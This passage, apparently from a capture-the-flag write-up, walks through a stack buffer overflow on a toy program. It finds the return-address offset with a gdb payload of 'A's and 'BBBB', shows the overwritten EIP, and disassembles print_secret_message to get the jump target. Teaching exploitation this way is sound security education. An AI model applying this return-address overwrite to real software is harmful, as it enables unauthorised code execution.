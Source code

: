 A nice tip is to add four B's at the end of the A's. Then we know the exact 
amount of padding when gdb segfaults having _0x42424242_ as the memory 
address it tried to return to. Then we also know that we may replace the four
bytes for the B's with the four bytes of the replacement return address. 
By trying a little, we finally get the right padding. 
```
gdb-peda$ r <<< `python -c 'print "A" * 64 + "BBBB"'`
```

In which gdb outputs the following:
```
[----------------------------------registers-----------------------------------]
EAX: 0x25 ('%')
EBX: 0x41414141 ('AAAA')
ECX: 0xffffd05c ('A' <repeats 32 times>, "BBBB\nY\376\367\240\320\377\377")
EDX: 0x40 ('@')
ESI: 0xf7fb3000 --> 0x1d7d6c 
EDI: 0x0 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffd080 --> 0xf7fe590a (and    al,0x2c)
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffd080 --> 0xf7fe590a (and    al,0x2c)
0004| 0xffffd084 --> 0xffffd0a0 --> 0x1 
0008| 0xffffd088 --> 0x0 
0012| 0xffffd08c --> 0xf7df3e81 (<__libc_start_main+241>:	add    esp,0x10)
0016| 0xffffd090 --> 0xf7fb3000 --> 0x1d7d6c 
0020| 0xffffd094 --> 0xf7fb3000 --> 0x1d7d6c 
0024| 0xffffd098 --> 0x0 
0028| 0xffffd09c --> 0xf7df3e81 (<__libc_start_main+241>:	add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 
```

2. We are nearly there! We know exactly where to put the memory address we want
the program to continue from after finishing the `answer_professor` function 
code. The only thing we are missing is the memory address itself. This is the 
main reason we use gdb! As we know the function name by looking at the source 
code, finding the memory address is as easy as doing the following in gdb:
```
gdb-peda$ disas print_secret_message
Dump of assembler code for function print_secret_message:
   0x080484b6 <+0>:	push   ebp
   0x080484b7 <+1>:	mov    ebp,esp
   0x080484b9 <+3>:	push   ebx
   0x080484ba <+4>:	sub    esp,0x4
   0x080484bd <+7>:	call   0x8048575 <__x86.get_pc_thunk.ax>
   0x080484c2 <+12>:	add    eax,0x1442
   0x080484c7 <+17>:	sub    esp,0xc
   0x080484ca <+20>:	lea    edx,[eax-0x1304]
   0x080484d0 <+26>:	push   edx
   0x080484d1 <+27>:	mov    ebx,eax
   0x080484d3 <+29>:	call   0x8048360 <system@plt>
   0x080484d8 <+34>:	add    esp,0x10
   0x080484db <+37>:	nop
   0x080484dc <+38>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x080484df <+41>:	leave  
   0x080484e0 <+42>:	ret    
End of assembler dump.
```